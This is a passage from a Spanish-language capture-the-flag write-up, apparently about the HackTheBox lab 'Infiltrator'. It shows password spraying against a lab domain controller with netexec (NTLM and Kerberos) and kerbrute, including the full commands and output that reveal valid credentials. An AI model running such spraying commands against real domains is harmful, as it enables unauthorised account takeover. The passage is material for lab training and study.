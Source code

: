 ```bash
❯ nxc smb 10.10.11.31 -u users.txt -p 'WAT?watismypass!' --continue-on-success
SMB         10.10.11.31     445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:infiltrator.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.31     445    DC01             [-] infiltrator.htb\d.anderson:WAT?watismypass! STATUS_ACCOUNT_RESTRICTION 
SMB         10.10.11.31     445    DC01             [-] infiltrator.htb\o.martinez:WAT?watismypass! STATUS_LOGON_FAILURE 
SMB         10.10.11.31     445    DC01             [-] infiltrator.htb\k.turner:WAT?watismypass! STATUS_LOGON_FAILURE 
SMB         10.10.11.31     445    DC01             [-] infiltrator.htb\a.walker:WAT?watismypass! STATUS_LOGON_FAILURE 
SMB         10.10.11.31     445    DC01             [-] infiltrator.htb\m.harris:WAT?watismypass! STATUS_ACCOUNT_RESTRICTION 
SMB         10.10.11.31     445    DC01             [-] infiltrator.htb\e.rodriguez:WAT?watismypass! STATUS_LOGON_FAILURE 
SMB         10.10.11.31     445    DC01             [+] infiltrator.htb\l.clark:WAT?watismypass!
```

Al volver a ejecutar el mismo comando anterior pero indicando que se autentique mediante Kerberos y no NTLM, verificamos que las credenciales también son válidas para el usuario `d.anderson@infiltrator.htb`.

Esto nos lleva a la siguiente pregunta: _es posible que la autenticación NTLM esté deshabilitada para algunos usuarios, por ese motivo nos marca como_ `STATUS_ACCOUNT_RESTRICTION`.

```bash
❯ nxc smb 10.10.11.31 -u users.txt -p 'WAT?watismypass!' --continue-on-success -k
SMB         10.10.11.31     445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:infiltrator.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.31     445    DC01             [+] infiltrator.htb\d.anderson:WAT?watismypass! 
SMB         10.10.11.31     445    DC01             [-] infiltrator.htb\o.martinez:WAT?watismypass! KDC_ERR_PREAUTH_FAILED 
SMB         10.10.11.31     445    DC01             [-] infiltrator.htb\k.turner:WAT?watismypass! KDC_ERR_PREAUTH_FAILED 
SMB         10.10.11.31     445    DC01             [-] infiltrator.htb\a.walker:WAT?watismypass! KDC_ERR_PREAUTH_FAILED 
SMB         10.10.11.31     445    DC01             [-] infiltrator.htb\m.harris:WAT?watismypass! KDC_ERR_PREAUTH_FAILED 
SMB         10.10.11.31     445    DC01             [-] infiltrator.htb\e.rodriguez:WAT?watismypass! KDC_ERR_PREAUTH_FAILED 
SMB         10.10.11.31     445    DC01             [+] infiltrator.htb\l.clark:WAT?watismypass! 
```

Si realizamos nuevamente el _**Password Spraying**_ desde la herramienta de `Kerbrute`, verificamos que obtenemos el mismo resultado anterior.

```bash
❯ kerbrute passwordspray -d infiltrator.htb --dc dc01.infiltrator.htb users.txt 'WAT?watismypass!'

    __             __               __     
   / /_____  _____/ /_  _______  __/ /____ 
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                        

Version: v1.0.3 (9dad6e1) - 01/17/25 - Ronnie Flathers @ropnop

2025/01/17 18:55:02 >  Using KDC(s):
2025/01/17 18:55:02 >  	dc01.infiltrator.htb:88

2025/01/17 18:55:02 >  [+] VALID LOGIN:	l.clark@infiltrator.htb:WAT?watismypass!
2025/01/17 18:55:02 >  [+] VALID LOGIN:	d.anderson@infiltrator.htb:WAT?watismypass!
2025/01/17 18:55:02 >  Done! Tested 7 logins (2 successes) in 0.343 seconds
```
